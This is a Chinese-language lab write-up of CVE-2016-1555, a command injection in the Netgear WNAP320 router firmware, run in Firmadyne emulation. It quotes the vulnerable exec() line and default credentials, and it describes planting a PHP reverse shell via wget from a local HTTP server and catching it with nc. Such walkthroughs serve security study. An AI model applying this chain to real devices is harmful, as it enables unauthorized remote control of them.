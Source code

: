 ```yaml
---
title: "CVE-2016-1555"
subtitle: "Netgear WNAP320"
layout: post
author: "Hsu"
published: true
header-style: text
tags:
  - CVE
---
```

# CVE-2016-1555
> 原因: 網站內可插入惡意指令
> 測試環境: Firmadyne 

## Write up

1. 首先先去下載韌體檔案
    ```bash
    $wget http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip
    ```
2. 把韌體檔案用binwalk拆解
    ```bash
    binwalk -Me ./WNAP320\ Firmware\ Version\ 2.0.3.zip
    ```
3. 然後去查一下CVE-2016-1555的資料
    > (1) boardData102.php, (2) boardData103.php, (3) boardDataJP.php, (4) boardDataNA.php, and **(5) boardDataWW.php** in Netgear WN604 before 3.3.3 and WN802Tv2, WNAP210v2, WNAP320, WNDAP350, WNDAP360, and WNDAP660 before 3.5.5.0 allow remote attackers to execute arbitrary commands.
    - 可以看到boardDataWW.php可以執行shell程式，把她打開看一下
        ![image](https://hackmd.io/_uploads/BJxQCSLa0.png)
        - 問題點
            ```php
            exec("wr_mfg_data -m ".$_REQUEST['macAddress']." -c ".$_REQUEST['reginfo'],$dummy,$res);
            ```
            - 也就是說他會直接執行$_REQUEST['macAddress']
                - 喔對我後來有查ereg是甚麼，結果他是只找有他符合的substring即可，所以意思是有Mac碼+";"+指令，也可以執行
4. 可以壞壞了
    - 以下是工具
        - burpsuit
        - Pyton Simple http server
        - php reverse shell
5. 用Firmadyne模擬
    - 進到這個畫面就是成功
        - 帳號: admin
        - 密碼: password
        ![image](https://hackmd.io/_uploads/HkG4CrLaR.png)
6. 進入到boardDataWW.php的頁面中
     ![image](https://hackmd.io/_uploads/BkA_kIL60.png)
    - 反正可以用burpsuit攔截看看了
        - 用ping實驗看看
            - Server:
                ![image](https://hackmd.io/_uploads/B1A40r8aR.png)
            - Client:
                ![image](https://hackmd.io/_uploads/BkHSRrL6C.png)
            > 成功了，所以我可以用wget放惡意檔案進去看看
7. 使用reverse shell
    - [reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
    - 建立一個簡易Server - 用python的Simpel HTTP Server
        ```bash
        $python3 -m http.server 8001
        ```
    - 好了傳看看
        ![image](https://hackmd.io/_uploads/rJ18RBUpA.png)
        ![image](https://hackmd.io/_uploads/SJv8CS8TC.png)
    > 成功注入
8. 使用reverse shell
    - 用nc監聽1234port
    - 進到reverse.php
    - Finish!!!
    ![image](https://hackmd.io/_uploads/HyFvRrLa0.png)
    
